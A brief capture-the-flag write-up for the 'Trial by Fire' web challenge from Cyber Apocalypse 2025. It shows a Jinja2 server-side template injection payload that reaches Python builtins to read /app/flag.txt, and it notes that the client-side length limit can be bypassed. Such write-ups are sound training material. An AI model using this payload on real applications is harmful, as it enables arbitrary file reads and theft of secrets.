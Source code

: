 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | Trial by Fire Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: web
challenge: Trial by Fire
tags: "web, twh, ssti"
date: 2025-03-29T00:00:00+00:00
last_update: 2025-03-29T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2025</h1>

## Trial by Fire
> Solved by thewhiteh4t


- We have an input and a hint for SSTI `Can you read the runes? Perhaps 49 is the key.`
- On the battle result page we can see that SSTI is working


![](https://i.imgur.com/XcNrIpA.png)

- Payload :

```
    {{ request.__class__._load_form_data.__globals__.__builtins__.open("/app/flag.txt").read() }}
```

- Length of the input is restricted in the front-end, so we can either edit the length in inspect or simply use burp


![](https://i.imgur.com/aBge1Lj.png)

